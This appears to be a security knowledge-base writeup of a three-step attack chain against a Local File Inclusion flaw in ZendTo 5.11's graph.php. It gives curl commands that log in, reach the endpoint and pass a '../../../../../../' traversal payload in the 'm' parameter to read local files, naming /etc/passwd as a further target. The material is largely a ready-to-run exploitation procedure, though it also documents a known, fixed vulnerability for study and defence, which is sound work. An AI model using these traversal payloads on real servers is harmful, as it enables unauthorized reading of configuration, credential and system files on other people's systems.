

# Local File Inclusion via Path Traversal in ZendTo graph.php

Multi-stage attack chain demonstrating exploitation of a Local File Inclusion (LFI) vulnerability through path traversal in the graph.php file of ZendTo version 5.11, allowing arbitrary local file reads that could lead to system compromise by accessing sensitive configurations, logs, or other critical data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[commands/curl-visit-url]] for HTTP requests

### Target Environment

- Web platform running PHP with Apache
- ZendTo version 5.11 (vulnerable, fixed in 5.16-6 Beta)
- Exposed graph.php endpoint
- Network access to the target server

### Initial Access Requirements

- Valid credentials for demo or authenticated access (e.g., username and password for session establishment)
- Direct network connectivity to the target URL
- No prior access needed beyond internet reachability

## Detailed Attack Procedures

### Step 1: Login to ZendTo Demo Server
procedure: [[procedures/Login-to-ZendTo-Demo-Server]]

**Objective**: Establish an authenticated session to access protected endpoints like graph.php.

**Instructions**: Use a web browser or curl to visit the login page and authenticate with provided credentials. This simulates access without direct credentials by using a demo environment.

Execute [[commands/curl-login-zendto]] to perform the login:

```bash
curl -X POST 'https://████/login.php' -d 'username=████████&password=██████' -c cookies.txt
```

**Expected Output**: Successful login response (e.g., HTTP 200 with session cookie) and redirection to the dashboard.

**Success Indicators**:
- Session cookie received in cookies.txt
- Access to authenticated pages confirmed

### Step 2: Access Vulnerable Graph Endpoint
procedure: [[procedures/Access-ZendTo-Graph-Endpoint]]

**Objective**: Reach the graph.php endpoint with an authenticated session to set up for exploitation.

**Instructions**: With the session established, visit the graph.php endpoint using a parameter like 'p' to load expected content, confirming access before traversal.

Use [[commands/curl-access-graph]] to visit the endpoint:

```bash
curl -b cookies.txt 'https://████/graph.php?p=7' -o response.html
```

**Expected Output**: Response containing RRD graph data or a rendered page without errors.

**Success Indicators**:
- HTTP 200 response
- No authentication errors; endpoint loads RRD-related content

### Step 3: Exploit LFI Path Traversal
procedure: [[procedures/Exploit-LFI-Path-Traversal-in-graph.php]]

**Objective**: Manipulate the 'm' parameter to traverse directories and read arbitrary local files, such as server icons or sensitive configs.

**Instructions**: Override the 'm' or 'metric' parameter with a path traversal payload (e.g., ../../../../../../) appended to target a file outside the RRD data directory. Test with a known file like /usr/share/apache2/icons/pie to confirm inclusion.

Execute [[commands/curl-lfi-traversal]] to exploit:

```bash
curl -b cookies.txt 'https://████/graph.php?p=7&m=../../../../../../usr/share/apache2/icons/pie' -o lfi_output
```

**Expected Output**: The response includes the content of the targeted file (e.g., pie image data or binary output indicating successful inclusion).

**Success Indicators**:
- Non-error response with file content (e.g., image loads or raw file data visible)
- Ability to target other files like /etc/passwd for further validation

## Attack Chain Summary

### Key Achievements

1. Authenticated access to the vulnerable ZendTo instance
2. Successful path traversal to read files outside the intended directory
3. Potential for broader compromise by accessing configs, logs, or source code

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery

---
*Last updated: 2023-10-01T00:00:00Z*
